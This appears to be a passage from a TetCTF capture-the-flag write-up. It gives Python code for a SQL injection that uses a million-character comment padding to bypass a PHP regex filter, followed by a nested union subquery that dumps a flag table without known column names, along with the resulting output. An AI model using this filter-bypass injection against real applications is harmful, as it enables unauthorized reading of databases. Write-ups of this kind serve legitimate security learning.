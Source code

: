 ```css
def union_bypass():
  payload = 'union/*'+'a'*1000000+'*/select 1,2,3-- -'
	r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'-2 {}'.format(payload)},proxies={'http':'http://127.0.0.1:8080'})
	print r.text
  ```
Output is 
```css
<br><br><br><br><center>
Security Check!!! Please enter your ID to prove who are you !!!:
<form action="index.php" method="POST">
        <input name="id" value="" /><br>
        <input type="submit" value="Submit" />
</form>
</center>

Hello 2
```

Now we can print flag without knowing column_name (That's the beauty if we have Union)

```css
def union_bypass():
	#payload = 'union/*'+'a'*1000000+'*/select 1,2,3-- -'
	payload='union/*'+'a'*1000000+'*/select 1,(select b from (select 1 as a, 2 as b union/*'+'a'*1000000+'*/select * from Th1z_Fack1n_Fl4444g_Tabl3) bbb limit 1,1),3-- -'
	r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'-2 {}'.format(payload)},proxies={'http':'http://127.0.0.1:8080'})
	print r.text
```

Outcome is 

```css
root@MrR3boot:~# python do.py 
1. Dump Database Name
2. Find Table Names
3. Union Bypass (PHP & RegEx Bug)
> 3

<br><br><br><br><center>
Security Check!!! Please enter your ID to prove who are you !!!:
<form action="index.php" method="POST">
        <input name="id" value="" /><br>
        <input type="submit" value="Submit" />
</form>
</center>

Hello TetCTF{0wl_d0nkey_means_Liarrrrrrr}
```
